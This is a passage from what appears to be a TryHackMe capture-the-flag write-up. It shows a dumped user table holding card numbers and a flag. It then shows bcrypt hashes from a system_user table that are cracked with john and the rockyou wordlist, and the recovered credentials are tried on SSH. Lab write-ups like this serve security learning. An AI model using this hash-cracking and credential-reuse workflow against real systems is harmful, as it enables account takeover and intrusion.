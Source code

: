 The result shows three tables: `product`, `user`, and `system_user`. The `product` table is useless to us, but the other two offer some good information.

### Flag 1

We can find the first flag in `user` table. It is located in `credit_card` column in front of user `mandrews`:

~~~
+----------+----------------------------+
| username | credit_card                |
+----------+----------------------------+
| jhenry   | 4338736490565706           |
| smonroe  | 355219744086163            |
| dross    | 349789518019219            |
| ngross   | 4499108649937274           |
| jlawlor  | 4563593127115348           |
| mandrews | thm{br3ak1ng_4nd_3nt3r1ng} |   <----------
| dgorman  | 4905698211632780           |
| mbutts   | 4690248976187759           |
| hmontana | 375019041714434            |
| csmith   | 364774395134471            |
+----------+----------------------------+
~~~

Flag 1: `thm{br3ak1ng_4nd_3nt3r1ng}`

### Connecting to SSH

In the dumped data, we can see many password hashes, but the ones that can be useful for us, are the ones found in `system_user` table:

~~~
server-admin:$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a
kmotley:$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa
dhughes:$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK
~~~

I saved these hashes in a file and used `john` and `rockyou` wordlist to crack them:

~~~
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes  
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Loaded hashes with cost 1 (iteration count) varying from 256 to 4096
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
inuyasha         (server-admin)
~~~

I was able to crack one of the hashes and now we have a username and password:

* Username: `server-admin`
* Password: `inuyasha`

Let's try the creds on the ssh service to see if we can access it or not:
